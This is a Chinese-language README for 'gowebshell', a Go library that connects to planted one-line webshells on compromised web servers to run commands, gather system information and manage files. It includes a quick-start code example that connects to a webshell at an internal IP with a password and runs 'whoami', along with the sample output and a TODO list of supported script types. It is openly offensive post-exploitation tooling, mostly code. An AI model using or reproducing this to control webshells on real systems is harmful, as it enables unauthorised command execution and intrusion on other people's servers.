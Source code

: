 # gowebshell

使用go连接常见一句话木马，进行文件管理和命令执行，获取基本信息等功能

## 快速使用

```shell
go get github.com/zyylhn/gowebshell
```

```go
//必须指定一句地址，和链接密码，其他选择性指定
webshell,_:=gowebshell.NewWebshell("http://172.16.95.24/test.php","cc123","",nil)
//执行命令，必须要执行命令的目录，命令和使用的shell，windows只能使用cmd，和脚本类型
cmd,_:=webshell.ExecCommand("/usr","whoami","/bin/sh", gowebshell.PhpScriptCmd,nil)
//命令结果存在cmd的result中
fmt.Println(cmd.Result)
//获取基本信息，指定脚本类型
info,_:=webshell.GetBaseInfo(gowebshell.JspScriptBaseInfo,nil)
fmt.Println(info)

```

以上会输出

```
www-data
&{/var/www/html / Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 www-data}

```

## TODO

- [x] 支持php
- [x] 支持aspx
  - [x] jscript执行
  - [ ] C#执行
- [x] 支持jsp
- [ ] 支持asp
- [x] 获取基本信息
- [x] 执行命令
- [ ] 文件管理

